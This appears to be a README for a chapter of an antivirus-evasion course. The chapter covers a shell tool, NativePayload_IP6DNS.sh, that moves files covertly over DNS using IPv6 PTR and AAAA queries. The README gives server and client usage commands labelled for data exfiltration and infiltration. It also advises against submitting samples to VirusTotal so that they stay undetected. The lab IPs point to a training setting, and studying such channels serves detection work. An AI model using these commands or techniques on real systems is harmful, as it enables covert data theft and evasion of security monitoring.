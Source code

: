 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 6 : DATA Transferring Technique by DNS Traffic (AAAA Records)

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 4 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH6

Related Video : 

Video 1 for chapter 6: 

Video 2 for chapter 6: https://www.youtube.com/watch?v=Ac651MbNJ_U

Video 2 for chapter 7: https://www.youtube.com/watch?v=6Lj-2KkHqgA

Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

# NativePayload_IP6DNS.sh help :

Example A-Step1: (Server Side ) ./NativePayload_IP6DNS.sh -r

Example A-Step2: (Client Side ) ./NativePayload_IP6DNS.sh -u text.txt DNSMASQ_IPv4 [delay] (sec) [address] xxxx:xxxx

example IPv4:192.168.56.110 : ./NativePayload_IP6DNS.sh -r

example IPv4:192.168.56.111 : ./NativePayload_IP6DNS.sh -u text.txt 192.168.56.110 delay 0 address fe81:2222

Description: with A-Step1 you will make DNS Server , with A-Step2 you can Send text file via IPv6 PTR Queries to DNS server

# Using IPv6 PTR Queries for Exfil/Upload DATA

![](https://github.com/DamonMohammadbagher/NativePayload_IP6DNS/blob/master/Chapter%206%20-%20DATA%20Transferring%20Technique%20by%20DNS%20Traffic%20-%20AAAA%20Records/Pics/NativePayload_IP6DNS-Via-IPv6-PTR.png)

Example B-Step1: (Server Side ) ./NativePayload_IP6DNS.sh -d makedns test.txt mydomain.com [address] xxxx:xxxx

Example B-Step2: (Client Side ) ./NativePayload_IP6DNS.sh -d getdata mydomain.com DNSMASQ_IPv4"

example IPv4:192.168.56.110 : ./NativePayload_IP6DNS.sh -d makedns text.txt google.com address fe80:1234

example IPv4:192.168.56.111 : ./NativePayload_IP6DNS.sh -d getdata google.com 192.168.56.110

Description: with B-Step1 you will have DNS Server , with B-Step2 you can Dump test.txt file from server via IPv6 AAAA record Query

# Using IPv6 AAAA Records for Infil/Download DATA

![](https://github.com/DamonMohammadbagher/NativePayload_IP6DNS/blob/master/Chapter%206%20-%20DATA%20Transferring%20Technique%20by%20DNS%20Traffic%20-%20AAAA%20Records/Pics/NativePayload_IP6DNS-Via-IPv6-AAAA.png)

